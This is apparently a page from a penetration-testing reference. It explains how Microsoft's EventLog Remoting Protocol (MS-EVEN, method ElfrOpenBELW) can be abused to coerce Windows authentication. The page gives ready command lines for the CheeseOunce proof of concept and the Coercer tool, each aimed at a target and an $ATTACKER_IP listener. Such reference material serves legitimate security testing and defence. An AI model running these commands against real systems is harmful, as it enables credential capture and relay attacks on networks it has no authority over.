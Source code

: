 # MS-EVEN abuse (CheeseOunce)

## Theory

[MS-EVEN](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) is Microsoft's EventLog Remoting Protocol. It provides an RPC interface for reading events in both live and backup event logs on remote computers. That interface is available through `\PIPE\eventlog` SMB named pipe.

We can abuse this protocol to coerce authentications. Similarly to other MS-RPC abuses, this works by using a specific method relying on remote address. In this case, the `ElfrOpenBELW` method was detected vulnerable.

## Practice

{% tabs %}
{% tab title="Exploit" %}
#### CheeseOunce

The following Python proof-of-concept ([https://github.com/evilashz/CheeseOunce](https://github.com/evilashz/CheeseOunce)) implements the `ElfrOpenBELW` method.

```bash
python cheese.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP $ATTACKER_IP
```

#### Coercer

Another alternative is to use the [Coercer](https://github.com/p0dalirius/Coercer/tree/master) tool (python) as follow.

```bash
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-protocol-name MS-EVEN -l $ATTACKER_IP -t $TARGET_IP
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f" %}

{% embed url="https://github.com/evilashz/CheeseOunce" %}
